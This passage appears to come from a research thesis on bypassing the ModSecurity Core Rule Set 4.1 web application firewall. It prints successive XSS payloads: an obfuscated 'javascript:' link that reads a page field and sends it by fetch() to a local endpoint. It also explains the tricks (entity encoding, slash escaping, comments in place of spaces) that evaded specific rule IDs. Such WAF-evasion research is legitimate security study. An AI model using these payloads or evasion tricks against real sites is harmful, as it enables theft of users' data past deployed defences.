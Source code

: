 \begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=j&^\#^97vascript:var secret = document.getElementsByName('name')[0]&^\#^46innerHTML;var data = {body:secret,method:'POST'};fetch('http://localhost:3001/api/ping?secret='+secret,data)>ClickMeFor$</a>
\end{lstlisting}

successfully evaded \acrshort{crs} 4.1 rule with id \verb|941180|.
Finally one of the forward-slashes \verb|/| in the url-string given to the JavaScript function \verb|fetch()| was escaped by prepending it with a back-slash \verb|\|.
Escaping any normal character with a back-slash \verb|\| is allowed in JavaScript (Section~\ref{sec:jsescape}) and successfully made the payload evade the last remaining rule: \verb|934110|.
The bypassing payload:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=j&^\#^97vascript:var secret = document.getElementsByName('name')[0]&^\#^46innerHTML;var data = {body:secret,method:'POST'};fetch('http:\//localhost:3001/api/ping?secret='+secret,data)>ClickMeFor$</a>
\end{lstlisting}

After injecting this payload into the \acrshort{html} document during validation, it turned out that the resulting \acrshort{html} code was split according to the whitespaces given in the JavaScript statements. A similar case to what was observed in Section~\ref{sec:funconstrconbypass}.
Whitespaces contained in the JavaScript statements of the bypassing but invalid payload were substituted by comments to create the payload:

\begin{lstlisting}[style=basicStyle, caption=Secret exfiltration XSS bypass, language=Python, escapeinside=\^\^]
<a href=j&^\#^97vascript:var/**/secret/**/=/**/document.getElementsByName('name')[0]&^\#^46innerHTML;var/**/data/**/=/**/{body:secret,method:'POST'};fetch('http:\//localhost:3001/api/ping?secret='+secret,data)>ClickMeFor$</a>
\end{lstlisting}

When sent in a request towards the web application, this payload bypassed the ModSecurity firewall using \acrshort{crs} 4.1 and was successfully validated on the target.


